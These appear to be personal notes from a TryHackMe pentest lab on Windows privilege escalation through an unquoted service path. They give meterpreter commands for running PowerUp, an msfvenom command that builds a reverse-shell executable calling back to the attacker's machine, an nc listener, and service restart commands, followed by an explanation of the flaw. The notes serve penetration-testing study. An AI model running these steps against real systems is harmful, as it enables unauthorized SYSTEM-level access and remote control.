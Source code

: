 # PowerShell, Metasploit and Privilege Escalation through Misconfiguration
#pentest/tryhackme

## What 
PowerShell is a task automation and configuration management framework from Microsoft, consisting of a command-line shell and associated scripting language. Initially a Windows component only, known as Windows PowerShell, it was made open-source and cross-platform on 18 August 2016 with the introduction of PowerShell Core.[5] The former is built on the .NET Framework, the latter on .NET Core.

In PowerShell, administrative tasks are generally performed by cmdlets (pronounced command-lets), which are specialized .NET classes implementing a particular operation. These work by accessing data in different data stores, like the file system or registry, which are made available to PowerShell via providers. Third-party developers can add cmdlets and providers to PowerShell.[6][7] Cmdlets may be used by scripts and scripts may be packaged into modules. 

## Script to find misconfigurations
Called PowerUp and can be found here: [PowerSploit/PowerUp.ps1 at master · PowerShellMafia/PowerSploit · GitHub](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

**How to use it assuming we are using metasploit?**

1. Upload the script to the target
	1. `upload <PowerUp.ps1 script path>`
2. Initialize PowerShell on the target
	1. `meterpreter > load powershell`
	2. `meterpreter > powershell_shell`
3. Run the script
		1. `PS > . .\PowerUp.ps1`
		2. `PS > Invoke-AllChecks`
4. This will enumerate misconfigurations on the target machine and we can exploit them
5. One of the ideas is that we can find for the **CanRestart** option set as  **true**, this allows us to restart a service on the system. It’s also important for the directory to the application to also be write-able. This means we can replace the legitimate application with our malicious one and restart the service, which will run our infected program!
	1. `msfvenom -p windows/shell_reverse_tcp LHOST=<our-machine> LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe` -> In our machine
	2. `cd <path that the service is running>`
	3. `upload Advanced.exe` -> In our metasploit session
		1. This should be uploaded to the proper path that the service being restarted is reading from
	4. `nc -nlvp 4443` -> In our machine
	5. `shell` -> In our metasploit session
	6. `sc stop <service_name>` -> In our metasploit session
	7. `sc start <service_name>` -> In our metasploit session
		1. The service should try to establish a connection with our machine

## Why this works?
If you’ve gotten to this point and are somewhat confused about what Unquoted Service Paths are, that’s ok.  In a nutshell, USP are a misconfiguration in a directory’s path that contains spaces in which the path isn’t encapsulated in double quotations.  If the path to an executable is “quoted,” the path is specifically defined in the machine and not open to interpretation usually.  If the path is not quoted, then you can maliciously insert executables in to the “spaces.”  This  [link ](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae) provides a pretty good overview of what is going on to cause these vulnerabilities.  

From here we need to determine the locations within the service path that can be exploited.  We see that in this case we could try C:\Program Files (x86), and try to inject something named Program.exe, but we likely do not have permission to do so.  However we know that we have permission to modify the service as we have privileges to run it (StartName: LocalSystem).

Now that we know that we have privileges, and that we have a possible path to inject our malicious executable in to, we need to craft it.  We can use msfvenom to do this.  Keep note that the service path we are targeting is Advanced SystemCare, so we will need to name our malicious executable “Advanced.exe” as this is what the system will attempt to run first. 